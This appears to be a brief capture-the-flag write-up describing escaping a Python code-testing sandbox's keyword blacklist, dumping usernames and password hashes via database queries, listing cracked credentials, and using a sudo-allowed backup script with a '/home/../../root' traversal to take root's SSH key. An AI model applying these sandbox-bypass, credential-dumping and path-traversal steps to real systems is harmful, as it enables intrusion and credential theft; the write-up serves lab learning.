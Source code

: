 Started with a nmap scan
```
22 OpenSSH 8.2p1
5000  Gunicorn 20.0.4
```
Going to the website its running a python code testing using ace editor and has some blacklist its using for certain python syntax 
Known blacklist
```
import os
import base64
import subprocesses
Turns out import is blocked
exec 
eval
```
After lots of testing I got some statement to work to fetched stuff from the db
```
To get usernames: print([u.username for u in db.session.query(User).all()])  
To get password hashes: print([u.password for u in db.session.query(User).all()])
```
and now we have the usernames and hashes from the database time to try and crack them 
```
devolopment:devolopment
martin:nafeelswordsmaster
```
and testing these logins on SSH martin was able to login when running `sudo -l` we have perms on `/usr/bin/backy.sh` with no password we can edit the `task.json` file and edit the backup folder that it wants to backup `/home/../../root` and since we have everything in the root we can take the `id_rsa` key and ssh into root to get the user flag 